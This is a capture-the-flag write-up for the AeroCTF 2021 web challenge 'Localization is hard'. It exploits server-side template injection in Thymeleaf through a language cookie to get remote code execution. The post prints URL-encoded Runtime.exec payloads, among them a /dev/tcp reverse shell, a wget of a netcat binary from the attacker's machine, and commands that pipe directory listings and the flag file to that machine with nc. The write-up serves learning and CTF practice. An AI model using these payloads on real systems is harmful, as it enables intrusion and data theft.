 +++
title = "[AeroCTF 2021 - web] Localization is hard"
tags = ["ctf", "AeroCTF 2021", "web", "java", "ssti", "Thymeleaf", "2021", "x."]
date = "2021-03-02"
+++

# Localization is hard

## 0x00

To solve this challenge we had to exploit a **[SSTI](https://portswigger.net/research/server-side-template-injection)** on **Thymeleaf** and lead that into a **Remote Code Execution**

## 0x01

#### Discovering the vulnerability

The challenge description talk about a Coffee who made for CTFers and in **English and in Russian**.

![CTF description](https://i.imgur.com/88wE70b.png) 

Btw , the challenge description tell us that the flag should be located at `/` on the file system, this maybe mean that we have to get an access to the machine to read the flag.
 
By inspecting the website we can read that the language can be choosed by clicking on a button. 
`(onclick` event), then the `set_language(lang)` function will be executed

*(quick look into the /js/templatemo-script.js)*

```javascript

function set_language(lang) {
  document.cookie = "lang=" + lang;
  window.location.reload();
}

```

the function set a cookie `lang` with `en` or `ru`

*trying a path traversal   "../flag/"*

```bash

curl http://151.236.114.211:7878/ --cookie "lang=en"

```

![response](https://i.imgur.com/wwxbzN0.png)
"**org.thymeleaf.exceptions.TemplateInputException**" by googling this error message, we find : [**thymeleaf**](https://www.thymeleaf.org/) .
This a modern server-side Java template engine for both web and standalone environments.

## 0x02
#### Find out about this Template-Engine
Assuming **Thymeleaf** as a template engine , we can think about a ***Server-side template injection***.
So searching about SSTI on this template engine
**>>** [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
**>>** [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)
**>>** [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)

#### Exploitation

To attempt an SSTI in Thymeleaf, we first must understand expressions that appear in Thymeleaf attributes. Thymeleaf expressions can have the following types:

`${...}`: Variable expressions – in practice, these are OGNL or Spring EL expressions.
`*{...}`: Selection expressions – similar to variable expressions but used for specific purposes.
`#{...}`: Message (i18n) expressions – used for internationalization.
`@{...}`: Link (URL) expressions – used to set correct URLs/paths in the application.
`~{...}`: Fragment expressions – they let you reuse parts of templates.


 - `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x`
 - `__${T(java.lang.Runtime).getRuntime().exec("whoami")}__::.x`
 
According [Acunetix](https://www.acunetix.com/). However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` (select one or the other depending on whether you need to escape special symbols). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.

So let's try on the site cookie to check the **RCE**
``__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7D__%3A%3A.x``

![response 500](https://i.imgur.com/4ywvJ38.png)
We don't have the **stdout** in the response but we always have a 500 response.

It's maybe blind based, so let's try to sleep.
![sleep server](https://i.imgur.com/W8J1WHE.png)
It's work !

So now, we understand that :
when we got `org.thymeleaf.exceptions.TemplateInputException` this mean that the command is executed, but when we send a bad command or a non-urlencoded payload we got ``java.lang.IllegalArgumentException``

## 0x03
####  Connect to our machine

We tried firstly to do a simple tcp reverse shell with 
```bash

__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fmyip%2F1337%200%3E%261%22).getInputStream()).next()%7D__%3A%3A.x

```

But nothing...
So let's try to wget a nc binary on our machine 

`__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22wget%20ip/nc%22).getInputStream()).next()%7D__%3A%3A.x`

and now try to bind shell our machine..
![receive connexion](https://i.imgur.com/aburDce.png)
Bingo ! We got a connexion from the machine, but nothing in the output.

#### Getting a shell environment from Runtime.exec

According [code white](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html)
The command passed to `Runtime.exec` is not executed by a shell. Instead, if you dig down though the Java source code, you'll end up in the [_UNIX process class](http://hg.openjdk.java.net/jdk7/jdk7/jdk/file/tip/src/solaris/classes/java/lang/UNIXProcess.java.linux), which reveals that calling `Runtime.exec` results in a `fork` and `exec` call on Unix platforms.

Exemple:
 ```java

import java.io.*;

public class Exec {

		public static void main(String[] args) throws IOException {
				Process p = Runtime.getRuntime().exec(args[0]);
				byte[] b = new byte[1];

				while (p.getErrorStream().read(b) > 0)
					System.out.write(b);

				while (p.getInputStream().read(b) > 0)
					System.out.write(b);
		}

}

```
We call this class as shown below with single quotes around the command line to ensure that our shell passes the command line argument to Java as is:

$ java Exec 'command arg1 arg2 ...'
So let's try to use this to read our flag :
`__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20echo%20ls%20-la%20%2F%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x`

**url decoded payload**  ``__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("sh -c $@|sh . echo ls -la /| nc ip 1337").getInputStream()).next()}__::.x``

![ls -la](https://i.imgur.com/IGqCDZC.png)

Now cat the flag :
``__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20cat%20%2Ftry_find_me.txt%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x``



![flag](https://i.imgur.com/IxSBfpt.png)

**Aero{j4va_1s_better_th4n_engl1sh}**

Cheers, @0x22sh =) 
